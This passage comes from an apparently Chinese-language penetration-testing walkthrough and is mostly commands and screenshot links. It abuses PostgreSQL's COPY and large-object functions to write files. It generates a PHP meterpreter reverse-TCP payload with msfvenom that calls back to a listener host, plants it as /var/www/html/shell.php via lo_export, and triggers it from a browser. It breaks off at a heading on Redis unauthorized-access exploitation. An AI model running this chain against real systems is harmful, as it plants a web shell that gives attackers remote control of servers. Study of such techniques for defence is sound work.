 [![](https://p3.ssl.qhimg.com/t01e4f320a79661d4c4.jpg)](https://p3.ssl.qhimg.com/t01e4f320a79661d4c4.jpg)

利用数据库写文件

`INSERT INTO MrLee(t) VALUES ('hello,MrLee');`<br>`COPY MrLee(t) TO '/tmp/MrLee';`

[![](https://p1.ssl.qhimg.com/t01acaf318fffcf48a3.jpg)](https://p1.ssl.qhimg.com/t01acaf318fffcf48a3.jpg)

`SELECT * FROM MrLee;`<br>
会显示里面有一句hello,MrLee<br>
如上可见,文件可以成功写入,并成功读取到源内容。

接下来就可以利用 “大对象” 数据写入法

`SELECT lo_create(6666);`<br>`delete from pg_largeobject where loid=6666;`<br>`//创建OID，清空内容`

[![](https://p5.ssl.qhimg.com/t015665f466098f61e5.jpg)](https://p5.ssl.qhimg.com/t015665f466098f61e5.jpg)

接下来向”大对象”数据写入数据(木马)，使用hex:

在写数据之前，先生成一个木马

`msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.56.1 LPORT=6666 R &gt; /Desktop/shell.php`

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01d50ec7512e44c8b9.jpg)

打开这个shell.php复制转换成16进制

[![](https://p5.ssl.qhimg.com/t0115d253e0a63ba6d3.png)](https://p5.ssl.qhimg.com/t0115d253e0a63ba6d3.png)

`insert into pg_largeobject (loid,pageno,data) values(6666, 0, decode('.....', 'hex'));`

[![](https://p1.ssl.qhimg.com/t01ff5fd5237966c735.jpg)](https://p1.ssl.qhimg.com/t01ff5fd5237966c735.jpg)

导出数据到指定文件:

`SELECT lo_export(6666, '/var/www/html/shell.php');`<br>`//默认导出到安装根目录 也可以带路径自由目录写shell`

[![](https://p0.ssl.qhimg.com/t01a085c5acefaeb2ff.jpg)](https://p0.ssl.qhimg.com/t01a085c5acefaeb2ff.jpg)

接下来就是访问了(先msf开启监听，然后[http://192.168.56.150/shell.php](http://192.168.56.150/shell.php))

[![](https://p3.ssl.qhimg.com/t01e520eb86b1faf0ab.png)](https://p3.ssl.qhimg.com/t01e520eb86b1faf0ab.png)

### <a class="reference-link" name="6379%E7%AB%AF%E5%8F%A3(redis)"></a>6379端口(redis)

Redis未经授权访问漏洞利用，连接redis

[![](https://p2.ssl.qhimg.com/t0150bb65f8d71c947e.jpg)](https://p2.ssl.qhimg.com/t0150bb65f8d71c947e.jpg)
